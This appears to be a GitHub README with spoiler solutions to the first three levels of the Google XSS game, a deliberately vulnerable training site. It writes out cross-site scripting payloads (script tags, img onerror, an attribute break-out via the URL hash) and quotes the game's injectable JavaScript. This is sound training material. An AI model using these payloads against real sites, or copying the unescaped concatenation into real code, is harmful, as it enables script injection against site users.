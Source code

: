 # GoogleXSSGame
Solutions to the Google XSS game.

Warning, contains spoilers so be careful if you are playing the games. 

##Challenge 1
We are presented with a simple text entry box on a website. A quick check shows that the text box does no filtering or validation and creates a URL link with exactly what is written in to it.
This means we can inject an HTML elemnt straight away. The easiest element to inject is:
```HTML
<script>alert("Winner!")</script>
```
Enter this directly in to the textbox and you should be fine.
Alternately, you can enter this as part of the URL:
```HTML
https://xss-game.appspot.com/level1/frame?query=<script>alert("Winner!")</script>
```

##Challenge 2
We now have a blog type website, where we can enter text that gets displayed as a new entry. 
Entering our solution from Challenge 1 simply creates a new blog post with our entry in the `<blockquote>` tags. We know that this won't work for us. Instead of a direct injection, let's try an error injection to see if we can abuse JavaScript a little bit. Using the `img` tag, let's see if we can use an `onerror` as suggested in the hints:
```JavaScript
<img src="this.gif" onerror=alert("Winner!") />
```
If you enter this as your new blog post, you should see the alert pop up and show that you have outsmarted it. 

##Challenge 3
Looking at how we can manipulate this, we see that the only place we can inject a new element is directly into the URL bar. Taking a look at the JavaScript running here, we can see that this is where the input into the URL bar is processed:
```JavaScript
<script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(self.location.hash.substr(1) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(self.location.hash.substr(1));
        }
      }, false);
    </script>
```
The `chooseTag(num)` function is where the input is processed, so let's see if we can abuse this. This function is going to insert an HTML element with a title and the picture link. Interestingly, the title part has the `num` input being passed through a `parseInt(num` function, but the link to the picture does not. We know that we cannot inject anything here, as the `parseInt(num` function will just return a NaN response. However, looking at the next line, we see that the `num` parameter is simply used there without being tested or escaped. This looks like a great place to break in.

If we insert a `1` as the `num` parameter, we expect the website to operate as usual. However, if we can manipulate what is inserted here, we could potentially cause an injection like we did in the previous challenge. Looking at the like that sources the `img` in the JavaScript, let's make it look like this:
```HTML
<img src="/static/level3/cloud1" onerror="alert("Winner!")/>
```
To do this, we just needed to add the input `1' onerror='alert("Winner!")'/>` to the URL.
